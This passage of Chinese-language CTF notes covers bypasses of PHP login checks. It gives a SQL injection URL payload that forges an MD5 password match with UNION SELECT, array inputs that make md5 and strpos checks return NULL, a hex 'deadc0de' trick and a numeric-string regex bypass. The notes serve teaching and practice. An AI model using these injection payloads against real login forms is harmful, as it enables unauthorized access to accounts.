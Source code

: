 `?username=admin\'\' AND pass=\''or 1 #&password=`

## 17、密码md5比较绕过

```
//select pw from ctf where user=''and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #
```

`?user='and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

## 18、md5()函数===使用数组绕过
php的数组做hash时都会等于null，所以可以通过数组绕过

## 19、ereg()函数strpos() 函数用数组返回NULL绕过.php
与6原理相同

## 20、十六进制与数字比较
要求输入的password每一位不能是1到9的数字，同时又要求password的值为3735929054，将3735929054转换为16进制，发现是deadc0de，可以绕过1到9的数字校验，同时作比较时两个值是相等的。

## 21、数字验证正则绕过

`0 >= preg_match('/^[[:graph:]]{12,}$/', $password)`
意为必须是12个字符以上（非空格非TAB之外的内容）

```
$reg = '/([[:punct:]]+|[[:digit:]]+|[[:upper:]]+|[[:lower:]]+)/'; 
if (6 > preg_match_all($reg, $password, $arr)) 
```
意为匹配到的次数要大于6次

```
$ps = array('punct', 'digit', 'upper', 'lower'); //[[:punct:]] 任何标点符号 [[:digit:]] 任何数字  [[:upper:]] 任何大写字母  [[:lower:]] 任何小写字母 
foreach ($ps as $pt) 
{ 
    if (preg_match("/[[:$pt:]]+/", $password)) 
        $c += 1; 
} 
if ($c < 3) break; 
```
意为必须要有大小写字母，数字，字符内容三种与三种以上

```
if ("42" == $password) echo $flag; 
```
意为必须等于`42`

答案：
```
42.00e+00000000000 
或
420.000000000e-1
```  
正则：